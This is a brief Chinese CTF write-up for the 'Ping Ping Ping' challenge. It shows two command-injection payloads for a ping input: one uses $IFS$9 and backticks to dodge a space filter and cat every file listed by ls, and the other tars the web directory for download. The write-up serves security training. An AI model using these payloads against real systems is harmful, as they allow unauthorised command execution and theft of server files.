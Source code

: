 # [GXYCTF2019]Ping Ping Ping

## 知识点

`命令执行`

## 解题

### 方法一 cat及命令执行符号

过滤很严格 最后`payload`

```bash
1;cat$IFS$9`ls`
```

然后查看源代码看到`flag`

### 方法二 当前目录非预期tar

或者使用通杀命令执行的`payload`

```bash
?ip=1;tar$IFS$9-cvf$IFS$9c$IFS$9.
```

即会将当前目录下的文件打包到`c`里，然后直接访问`/c`即可下载，下载后直接解压即可获取`flag`

